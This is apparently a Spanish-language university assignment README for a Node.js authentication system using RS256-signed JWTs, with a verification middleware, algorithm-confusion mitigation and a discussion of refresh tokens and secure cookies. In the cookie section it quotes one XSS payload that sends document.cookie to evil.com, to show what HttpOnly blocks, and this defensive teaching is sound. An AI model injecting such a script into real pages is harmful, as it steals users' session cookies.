




# Sistema de Autenticación Stateless con JWT RS256 y Simulación de Microservicios

---

## 🏛️ DATOS INFORMATIVOS

| Campo                  | Detalle                                 |
| ---------------------- | --------------------------------------- |
| **Institución**        | Universidad de las Fuerzas Armadas ESPE |
| **Departamento**       | Ciencias de la Computación              |
| **Carrera**            | Ingeniería de Software                  |
| **Asignatura**         | Aplicaciones Distribuidas               |
| **Tipo de evaluación** | Práctica Deber                          |
| **Estudiante**         | David Gustavo Cepeda Salguero           |
| **Fecha**              | 18 Junio 2026                              |

---

## 🎯 OBJETIVO DE LA PRÁCTICA

Diseñar e implementar un **sistema de identidad descentralizado y desacoplado** capaz de emitir credenciales de acceso firmadas criptográficamente mediante el algoritmo asimétrico **RS256 (RSA + SHA-256)**, y de validarlas de forma **autónoma y stateless** en microservicios simulados distribuidos, sin requerir consultas a ningún estado centralizado en tiempo de autorización.

El sistema demuestra que la **verdad de identidad puede viajar embebida dentro del propio token**, firmada con una llave privada custodiada exclusivamente por el servidor de autenticación, y verificable por cualquier microservicio que posea únicamente la llave pública correspondiente — garantizando así escalabilidad horizontal, bajo acoplamiento y validación criptográfica autónoma entre servicios.

---

## 🚀 ARQUITECTURA DE SOFTWARE & SOLID

### Principio de Responsabilidad Única (SRP) aplicado

Cada módulo del proyecto posee una única razón para existir y cambiar. La separación de capas es estricta y deliberada:

```
JWT/
├── config/
│   └── env.js                  # Carga y expone variables de entorno (única responsabilidad: configuración)
├── controllers/
│   └── auth.controller.js      # Orquesta el flujo HTTP de autenticación (única responsabilidad: manejar req/res)
│   └── resource.controller.js  # Orquesta el flujo HTTP de recursos protegidos
├── middlewares/
│   └── auth.middleware.js      # Intercepta y valida tokens (única responsabilidad: guardia de acceso)
├── routes/
│   └── auth.routes.js          # Mapea endpoints de identidad al controlador correspondiente
│   └── resource.routes.js      # Mapea endpoints de recursos y aplica el middleware
├── services/
│   └── jwt.service.js          # Encapsula toda la lógica criptográfica (única responsabilidad: firmar y verificar)
├── private.pem                 # Llave privada RSA-2048 — solo el Auth Server la conoce
├── public.pem                  # Llave pública RSA-2048 — distribuible a cualquier microservicio
├── .env                        # Variables de entorno activas (no versionado)
├── .env.example                # Plantilla de configuración para nuevos entornos
├── keypair.sh                  # Script de generación del par de llaves OpenSSL
└── index.js                    # Punto de entrada: composición del servidor Express
```

### Justificación del SRP por capa

| Módulo                               | Responsabilidad única                                                      | No hace                         |
| ------------------------------------ | -------------------------------------------------------------------------- | ------------------------------- |
| `config/env.js`                      | Leer `.env` y exponer `PRIVATE_KEY` y `PUBLIC_KEY` ya cargadas desde disco | No firma, no valida             |
| `services/jwt.service.js`            | Firmar tokens con RS256 y verificar firmas con la llave pública            | No conoce `req` ni `res`        |
| `middlewares/auth.middleware.js`     | Extraer, verificar y rechazar tokens en la capa HTTP                       | No conoce la lógica de negocio  |
| `controllers/auth.controller.js`     | Validar credenciales simuladas y delegar firma al servicio                 | No manipula llaves directamente |
| `controllers/resource.controller.js` | Leer `req.user` y construir la respuesta del recurso                       | No verifica tokens              |
| `routes/*.js`                        | Declarar qué controlador y qué middleware atiende cada ruta                | No contiene lógica              |

---

## 🔐 FLUJO CRIPTOGRÁFICO ASIMÉTRICO (RS256)

### Carga del par de llaves desde variables de entorno

Las llaves RSA-2048 se generan con OpenSSL mediante `keypair.sh` y sus rutas se parametrizan en `.env`. La carga ocurre **una única vez al arrancar el servidor**, en `config/env.js`:

```js
// config/env.js
import dotenv from "dotenv";
import fs from "fs";

dotenv.config();

export const config = {
  PORT: process.env.PORT || 3000,
  PRIVATE_KEY: fs.readFileSync(process.env.JWT_PRIVATE_KEY_PATH, "utf8"),
  PUBLIC_KEY: fs.readFileSync(process.env.JWT_PUBLIC_KEY_PATH, "utf8"),
};
```

```ini
# .env
PORT=3000
JWT_PRIVATE_KEY_PATH=./private.pem
JWT_PUBLIC_KEY_PATH=./public.pem
```

> La `PRIVATE_KEY` nunca sale del Auth Server. La `PUBLIC_KEY` puede distribuirse libremente a cualquier microservicio sin comprometer la seguridad del sistema.

### Estructuración del Payload y firma en `services/jwt.service.js`

```js
static signToken(user) {
    const now = Math.floor(Date.now() / 1000);

    const payload = {
        sub:  user.id,    // Identificador único del sujeto (estándar RFC 7519)
        name: user.name,  // Nombre completo del perfil autenticado
        exp:  now + 60,   // Expiración: exactamente 1 minuto en el futuro (segundos Unix)
    };

    return jwt.sign(payload, config.PRIVATE_KEY, { algorithm: 'RS256' });
}
```

| Claim  | Tipo                | Descripción                                                             |
| ------ | ------------------- | ----------------------------------------------------------------------- |
| `sub`  | Estándar (RFC 7519) | Identificador único e irrefutable del usuario autenticado               |
| `name` | Privado             | Nombre completo del perfil, embebido en el token para consumo stateless |
| `exp`  | Estándar (RFC 7519) | Timestamp Unix en segundos. Calculado dinámicamente: `now + 60`         |

### Por qué RS256 y no HS256

| Propiedad                | RS256 (asimétrico)                                  | HS256 (simétrico)                                  |
| ------------------------ | --------------------------------------------------- | -------------------------------------------------- |
| **Claves**               | Par pública/privada                                 | Una sola clave compartida                          |
| **Firma**                | Solo quien tiene la `private.pem`                   | Cualquiera con el secreto                          |
| **Verificación**         | Cualquiera con la `public.pem`                      | Solo quien tiene el secreto                        |
| **Escalabilidad**        | Los microservicios verifican sin conocer el secreto | El secreto debe distribuirse a todos los servicios |
| **Riesgo de compromiso** | Limitado: robo de `public.pem` no permite firmar    | Alto: robo del secreto permite forjar tokens       |

---

## 🛡️ MIDDLEWARE STATELESS & ROBUSTEZ

### Validación autónoma en microservicios simulados

`service-alpha` y `service-beta` no comparten estado entre sí ni consultan ninguna base de datos para autorizar una petición. Cada solicitud es **autocontenida**: el token porta la identidad firmada, y el middleware la verifica localmente usando solo la llave pública:

```
Cliente
  │
  │  GET /v1/service-alpha/private
  │  Authorization: Bearer <JWT>
  ▼
authMiddleware
  ├── Extrae el token del header
  ├── Llama a JwtService.verifyToken(token)       ← solo usa PUBLIC_KEY local
  ├── Si válido → inyecta payload en req.user
  └── Si inválido → responde 401 sin llegar al controlador
  │
  ▼
ResourceController.getAlphaPrivateData
  └── Lee req.user (identidad ya verificada) → responde 200
```

Ninguna instancia de `service-alpha` ni `service-beta` necesita comunicarse con el Auth Server para validar una petición. Esto hace que ambos servicios sean **horizontalmente escalables** sin coordinación de sesión.

### Implementación del middleware (`middlewares/auth.middleware.js`)

```js
import jwt from "jsonwebtoken";
import { JwtService } from "../services/jwt.service.js";

export const authMiddleware = (req, res, next) => {
  const authHeader = req.headers["authorization"];

  if (!authHeader?.startsWith("Bearer ")) {
    return res.status(401).json({ error: "Token no proporcionado" });
  }

  const token = authHeader.slice(7);

  try {
    req.user = JwtService.verifyToken(token);
    next();
  } catch (err) {
    if (err instanceof jwt.TokenExpiredError) {
      return res.status(401).json({ error: "Token expirado" });
    }
    if (err instanceof jwt.JsonWebTokenError) {
      return res.status(401).json({ error: "Token inválido" });
    }
    return res.status(500).json({ error: "Error interno de autenticación" });
  }
};
```

### Protección contra degradación de algoritmo

El ataque de degradación de algoritmo (_algorithm confusion attack_) consiste en que un atacante modifica el header del JWT de `"alg": "RS256"` a `"alg": "HS256"` y firma el token con la llave pública (que es conocida), engañando a bibliotecas que no fuerzan el algoritmo esperado.

Esta implementación lo bloquea en `services/jwt.service.js` mediante la lista blanca explícita de algoritmos permitidos:

```js
static verifyToken(token) {
    return jwt.verify(token, config.PUBLIC_KEY, { algorithms: ['RS256'] });
}
```

`jsonwebtoken` rechaza con `JsonWebTokenError` cualquier token cuyo header `alg` no sea exactamente `RS256`, incluyendo `HS256`, `HS512` y `none`. El middleware captura esa excepción y responde `401` sin exponer detalles internos.

| Vector de ataque                  | Mecanismo de mitigación                    | Respuesta HTTP |
| --------------------------------- | ------------------------------------------ | -------------- |
| Header `Authorization` ausente    | Guard `!authHeader?.startsWith('Bearer ')` | 401            |
| Algoritmo `none` o `HS256`        | `algorithms: ['RS256']` en `jwt.verify`    | 401            |
| Firma inválida o token malformado | `catch (jwt.JsonWebTokenError)`            | 401            |
| Token expirado (`exp` superado)   | `catch (jwt.TokenExpiredError)`            | 401            |
| Error inesperado del servidor     | `catch` genérico sin fuga de detalles      | 500            |

---

## 📸 BITÁCORA DE EVIDENCIAS (PRUEBAS DE INTEGRACIÓN EN POSTMAN)

### Captura 1 — Generación Exitosa del JWT

- [ ] `POST http://localhost:3000/auth/token` — retorna el token firmado asimétricamente con RS256



---

### Captura 2 — Consumo Exitoso: Microservicio Alpha

- [ ] `GET http://localhost:3000/v1/service-alpha/private` — respuesta `200 OK` con datos del usuario autenticado via Bearer Token



---

### Captura 3 — Consumo Exitoso: Microservicio Beta

- [ ] `GET http://localhost:3000/v1/service-beta/private` — respuesta `200 OK` con el mismo Bearer Token, demostrando validación stateless autónoma



---

### Captura 4 — Control de Expiración Criptográfica

- [ ] `GET http://localhost:3000/v1/service-alpha/private` — respuesta `401 Unauthorized` tras transcurrir el minuto de vida del token



---

## 📝 INVESTIGACIÓN TEÓRICA: INTEGRACIÓN DE REFRESH TOKENS

### Cuestionamiento 1 — ¿Cómo resuelve el Refresh Token la fricción de sesión corta sin comprometer la seguridad distribuida?

#### El problema

Un Access Token de 1 minuto (como en esta práctica) ilustra una tensión real: cuanto más corto es el TTL, menor es la ventana de daño ante un robo, pero mayor es la fricción para el usuario. La solución arquitectónica es el patrón **Access Token / Refresh Token**.

#### El patrón dual

| Credencial             | Propósito                       | TTL típico   | Almacenamiento                   |
| ---------------------- | ------------------------------- | ------------ | -------------------------------- |
| **Access Token (JWT)** | Autorizar peticiones a recursos | 5–15 minutos | Memoria volátil del cliente      |
| **Refresh Token**      | Obtener un nuevo Access Token   | 7–30 días    | Cookie `HttpOnly` en el servidor |

#### Flujo de intercambio

```
FASE 1 — Login inicial
  Cliente ──POST /auth/token {user, pass}──► Auth Server
  Auth Server emite:
    • Access Token  (JWT RS256, 15 min) → al cliente
    • Refresh Token (opaco, 30 días)    → en Cookie HttpOnly

FASE 2 — Consumo de recursos (stateless)
  Cliente ──GET /v1/service-alpha/private
            Authorization: Bearer <access_token>──► Microservicio
  Microservicio verifica firma con PUBLIC_KEY local → 200 OK
  (sin consultar ninguna base de datos)

FASE 3 — Renovación silenciosa al detectar 401
  Cliente detecta que el Access Token expiró
  Cliente ──POST /auth/refresh (Cookie automática)──► Auth Server
  Auth Server valida Refresh Token en su BD interna
  Auth Server emite nuevo Access Token → cliente reintenta
  El usuario no percibe ninguna interrupción
```

#### Por qué los microservicios siguen siendo stateless

El Refresh Token introduce estado, pero ese estado **vive exclusivamente en el Auth Server**. Los microservicios de negocio (`service-alpha`, `service-beta`) nunca ven el Refresh Token y nunca consultan una base de datos para validar el Access Token: únicamente verifican la firma criptográfica contra la llave pública local.

> **El contrato que preserva la arquitectura distribuida:** los microservicios son consumidores de verdad criptográfica, no árbitros de sesión. La gestión de sesión es responsabilidad exclusiva del Auth Server.

#### Mitigación del riesgo de larga duración

1. **Ventana acotada:** el Access Token robado solo es útil durante su TTL corto (minutos).
2. **Revocación quirúrgica:** el Auth Server puede invalidar un Refresh Token en su BD sin notificar a ningún microservicio. El Access Token asociado muere por expiración natural.
3. **Refresh Token Rotation:** en cada renovación, el Auth Server emite un Refresh Token nuevo e invalida el anterior. Si un atacante usa el Refresh Token robado, el servidor detecta la reutilización de un token ya rotado y revoca toda la familia de sesión, alertando del compromiso.

---

### Cuestionamiento 2 — ¿Dónde almacenar y gestionar el Refresh Token según buenas prácticas de cookies seguras?

#### El error más común: `localStorage`

Almacenar el Refresh Token en `localStorage` expone la credencial de larga duración a cualquier script JavaScript ejecutado en la página, incluyendo los inyectados mediante ataques XSS.

> **Regla fundamental:** ninguna credencial de larga duración debe ser accesible mediante JavaScript del lado cliente.

#### La solución correcta: Cookie `HttpOnly` gestionada por el servidor

```http
Set-Cookie: refresh_token=<valor_opaco>;
            HttpOnly;
            Secure;
            SameSite=Strict;
            Path=/auth/refresh;
            Max-Age=2592000
```

#### Anatomía de los atributos de seguridad

**`HttpOnly` — Barrera contra XSS**

Hace que la cookie sea invisible para toda la API de JavaScript. `document.cookie` no la lista, y ningún script puede leerla ni exfiltrarla.

> **Vector mitigado:** si un atacante inyecta `<script>fetch('https://evil.com?t='+document.cookie)</script>`, el Refresh Token simplemente no aparece. El ataque XSS falla en su objetivo de robar la sesión de larga duración.

**`Secure` — Barrera contra interceptación en tránsito**

El navegador solo adjunta la cookie en conexiones HTTPS. En HTTP plano, la cookie es retenida y nunca viaja en la petición.

> **Vector mitigado:** un atacante posicionado en la red (WiFi pública, proxy malicioso) no puede capturar el Refresh Token mediante escucha pasiva, ya que el tráfico va cifrado con TLS.

**`SameSite=Strict` — Barrera contra CSRF**

El navegador solo adjunta la cookie cuando la petición se origina en el mismo dominio que emitió la cookie. Peticiones cross-site no la incluyen.

> **Vector mitigado:** un sitio malicioso `evil.com` no puede incluir `` para obtener un nuevo Access Token en nombre de la víctima, porque el navegador no adjunta la cookie en peticiones originadas desde otro dominio.

**`Path=/auth/refresh` — Reducción de superficie**

La cookie solo se adjunta en peticiones a esa ruta específica. Cualquier otra ruta del mismo dominio viaja sin la cookie.

#### Cuadro resumen

| Atributo             | Protege contra        | Mecanismo                                       |
| -------------------- | --------------------- | ----------------------------------------------- |
| `HttpOnly`           | XSS                   | Cookie invisible para JavaScript                |
| `Secure`             | MitM / escucha pasiva | Solo viaja por TLS                              |
| `SameSite=Strict`    | CSRF                  | Rechaza peticiones cross-site                   |
| `Path=/auth/refresh` | Exposición accidental | Adjunta la cookie solo en la ruta de renovación |

> **Conclusión:** el Refresh Token nunca debe existir como dato manipulable en el cliente. Su ciclo de vida completo — emisión, transporte, rotación y revocación — es responsabilidad del Auth Server. El cliente es un portador pasivo a través de una cookie con los cuatro atributos descritos, preservando la naturaleza stateless de los microservicios de negocio.

---

## 🛠️ INSTRUCCIONES DE DESPLIEGUE LOCAL

### Pre-requisitos

- Node.js 18+
- OpenSSL instalado en el sistema
- npm 9+

### Pasos

**1. Clonar el repositorio**

```bash
git clone <url-del-repositorio>
cd JWT
```

**2. Instalar dependencias**

```bash
npm install
```

**3. Generar el par de llaves criptográficas RSA-2048**

```bash
chmod +x keypair.sh
./keypair.sh
```

Esto genera `private.pem` (llave privada, nunca versionar) y `public.pem` (llave pública) en la raíz del proyecto.

**4. Configurar variables de entorno**

```bash
cp .env.example .env
```

Contenido de `.env` generado:

```ini
PORT=3000
JWT_PRIVATE_KEY_PATH=./private.pem
JWT_PUBLIC_KEY_PATH=./public.pem
```

**5. Iniciar el servidor**

```bash
npm start
```

El servidor estará disponible en `http://localhost:3000`.

### Endpoints disponibles

| Método | Ruta                        | Protección       | Descripción                                  |
| ------ | --------------------------- | ---------------- | -------------------------------------------- |
| `GET`  | `/`                         | Pública          | Interfaz de prueba integrada en el navegador |
| `POST` | `/auth/token`               | Pública          | Genera un JWT firmado con RS256              |
| `GET`  | `/v1/service-alpha/private` | `authMiddleware` | Recurso protegido — Microservicio Alpha      |
| `GET`  | `/v1/service-beta/private`  | `authMiddleware` | Recurso protegido — Microservicio Beta       |

### Credenciales de prueba

| `username` | `password` |
| ---------- | ---------- |
| `admin`    | `admin123` |
| `david`    | `david123` |

### Checklist de verificación

- [ ] `npm start` levanta el servidor sin errores en consola
- [ ] `POST /auth/token` retorna un JWT con header `"alg": "RS256"`
- [ ] `GET /v1/service-alpha/private` con Bearer Token válido retorna `200 OK`
- [ ] `GET /v1/service-beta/private` con el mismo token retorna `200 OK`
- [ ] Tras 60 segundos, el mismo token retorna `401` con mensaje de expiración
- [ ] Una petición sin header `Authorization` retorna `401` con mensaje de token ausente

---

_Universidad de las Fuerzas Armadas ESPE — Práctica Calificada — Junio 2026_
